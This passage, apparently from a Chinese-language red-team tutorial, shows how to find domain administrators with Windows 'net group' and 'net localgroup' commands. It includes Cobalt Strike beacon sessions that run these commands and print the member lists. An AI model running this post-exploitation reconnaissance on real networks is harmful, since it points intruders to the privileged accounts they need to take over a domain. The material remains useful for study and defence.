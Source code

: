对于发现域管理员账号，可以在共享里使用本地的Windows命令。运行以下两条命令可以用来找出这些“域群组”的成员。

```powershell
net group "enterprise admins" /DOMAIN
net group "domain admins" /DOMAIN
```

```powershell
beacon> shell net group "enterprise admins" /domain
[*] Tasked beacon to run: net group "enterprise admins" /domain
[+] host called home, sent: 68 bytes
[+] received output:
组名     Enterprise Admins
注释     企业的指定系统管理员
成员
-------------------------------------------------------------------------------
Administrator            
命令成功完成。
```

```powershell
beacon> shell net group "domain admins" /domain
[*] Tasked beacon to run: net group "domain admins" /domain
[+] host called home, sent: 64 bytes
[+] received output:
组名     Domain Admins
注释     指定的域管理员
成员
-------------------------------------------------------------------------------
Administrator            
命令成功完成。
```

或者运行下面的命令来看谁是域控制器上的管理员

```powershell
net localgroup "administrators" /DOMAIN
```

```powershell
beacon> shell net localgroup "administrators" /domain
[*] Tasked beacon to run: net localgroup "administrators" /domain
[+] host called home, sent: 70 bytes
[+] received output:
别名     administrators
注释     管理员对计算机/域有不受限制的完全访问权
成员
-------------------------------------------------------------------------------
administrator
Domain Admins
Daniel
Enterprise Admins
命令成功完成。
```

**Net 模块**
